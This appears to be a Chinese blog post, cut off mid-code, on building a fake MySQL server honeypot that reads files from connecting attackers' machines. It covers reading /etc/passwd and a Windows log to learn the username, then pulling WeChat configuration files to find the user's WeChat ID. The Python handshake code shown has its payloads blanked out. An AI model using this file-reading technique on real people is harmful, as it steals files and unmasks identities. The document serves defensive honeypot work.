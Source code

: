 文字废话太多，直接上图吧。

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSELicS13WJQVX2poOSy6xGzAelAP9X9xibrdd1uZOjO4WOTBopqGlQZibvZ0O6RlSHa43gtic4zLrVWKw/640?wx_fmt=png)

如图所示当我在服务器上运行 payload 代码，并设置我想要读取的文件，即可进入监听模式。  

当攻击者连接我的 3306 端口，即可成功读取到攻击者电脑上的对应文件。

Linux 同理，可以读取 / etc/passwd 等文件。

那么，可以读文件，进一步怎样拓展呢？

根据大佬的文章，我们可以通过读取 C:\Windows\PFRO.log 文件来获取攻击者的用户名，根据用户名读取相应文件夹中的微信配置文件，进而获取微信 ID。

前提是微信文件保存路径为默认。

获取用户名，如图所示

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSELicS13WJQVX2poOSy6xGzAc4dSaqylPw2JEUUkqy7ULZDJWJotb2RWzx7uo6QkGUWG1FW0qmzgfg/640?wx_fmt=png)

但这种方式的缺点是，只能单文件读取，每次需要重新设置文件名，不能实现循环读取。  

于是，根据 https://github.com/qigpig/MysqlHoneypot 中的部分代码，进行进一步的完善和修改，就有了下面的内容

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSELicS13WJQVX2poOSy6xGzA0ibyASibMQTkm42VYT5MPsialDTnJHClYaKp8rKLEB6ickjTGqiays0ZQbA/640?wx_fmt=png)

**0x02 工具相关**  

----------------

### **2.1 代码相关**

开门见山，本系统代码乍一看很完美，但以普遍理性而论，仅适用于读取 windows 系统的文件。

先看核心代码

```
def mysql_get_file_content(filename,conn,address):
    logpath = os.path.abspath('.') + "/log/" + address[0]
    if not os.path.exists(logpath):
        os.makedirs(logpath)
    conn.sendall("xxx")
    try:
        conn.recv(1024000)
    except Exception as e:
        print(e)

    try:
        conn.sendall("xx")
        res1 = conn.recv(1024000)
        # SHOW VARIABLES
        if 'SHOW VARIABLES' in res1:
            conn.sendall("xxx")
            res2 = conn.recv(9999)
            if 'SHOW WARNINGS' in res2:
                conn.sendall("xxx")
                res3 = conn.recv(9999)
                if 'SHOW COLLATION' in res3:
                    conn.sendall("xxx")
                    res4 = conn.recv(9999)
                    if 'SET NAMES utf8' in res4:
                        conn.sendall("xxx")
                        res5 = conn.recv(9999)
                        if 'SET character_set_results=NULL' in res5:
                            conn.sendall("xxx")
                            conn.close()
                    else:
                        conn.close()
                else:
```